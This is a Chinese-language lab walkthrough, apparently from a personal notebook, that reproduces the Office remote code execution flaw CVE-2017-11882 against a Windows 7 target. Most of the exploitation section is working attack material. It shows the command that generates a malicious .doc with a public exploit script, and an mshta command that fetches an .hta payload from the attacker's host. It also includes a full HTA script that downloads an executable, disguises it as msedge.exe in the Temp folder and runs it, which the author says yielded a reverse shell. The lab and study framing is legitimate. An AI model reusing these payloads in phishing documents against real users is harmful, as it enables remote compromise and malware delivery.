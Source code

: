 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-11882
excerpt: Microsoft Office 2007 Service Pack 3、Microsoft Office 2010 Service Pack 2、Microsoft Office 2013 Service Pack 1 和 Microsoft Office 2016 存在内存对象处理漏洞，允许攻击者以当前用户身份运行任意代码，该漏洞又称为“Microsoft Office 内存损坏漏洞”。此 CVE ID 与 CVE-2017-11884 不同。
---
```


# CVE-2017-11882

> [CVE-2017-11882 Office RCE 复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2020/10/office.html)
> 
---

- [CVE-2017-11882](#cve-2017-11882)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

潜伏 17 年之久的 Office 远程代码执行漏洞（CVE-2017-11882）影响版本从 Office 2000 到当时最新的 Office 2016，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。

---

## 复现环境

- 靶机: 
  - [Win7SP1旗舰版](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2016](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

利用 [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882) 中的 [Command109b_CVE-2017-11882.py](https://github.com/Ridter/CVE-2017-11882/blob/master/Command109b_CVE-2017-11882.py) 生成带命令的 doc 文件

```bash
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o calc.doc
```

![image-20240617055440013](http://cdn.ayusummer233.top/DailyNotes/202406170554036.png)

受害者打开此文档即会弹出计算器

![image-20240617055823640](http://cdn.ayusummer233.top/DailyNotes/202406170558724.png)

---

试了下一些下载与执行文件的命令，效果都不是很理想，试下来似乎只适合短链命令，例如结合mshta脚本使用

`calc.hta`

```htaccess
<script>
    new ActiveXObject("WScript.Shell").Run("calc.exe");
</script>
```

```bash
python2 Command109b_CVE-2017-11882.py -c "mshta http://100.1.1.131:8000/download/calc.hta" -o htacalc.doc
```

![image-20240617064749124](http://cdn.ayusummer233.top/DailyNotes/202406170647275.png)

---

`deexe.hta`

```htaccess
<script>
var url = 'http://100.1.1.131:8000/download/normal.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);
</script>
```

![image-20240617065522463](http://cdn.ayusummer233.top/DailyNotes/202406170655737.png)

如果遇到上述错误需要 `ie-->Internet选项-->安全-->自定义级别-->找到“通过域访问数据源”-->选择“启用”。`

![image-20240617065739113](http://cdn.ayusummer233.top/DailyNotes/202406170657155.png)

也可以直接把站点加到可信站点里来帮助复现

成功反弹shell：

![image-20240617070200444](http://cdn.ayusummer233.top/DailyNotes/202406170702490.png)

---


## 参考材料

- 分析

- 利用工具
  - [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

- 复现过程

- 检测对抗

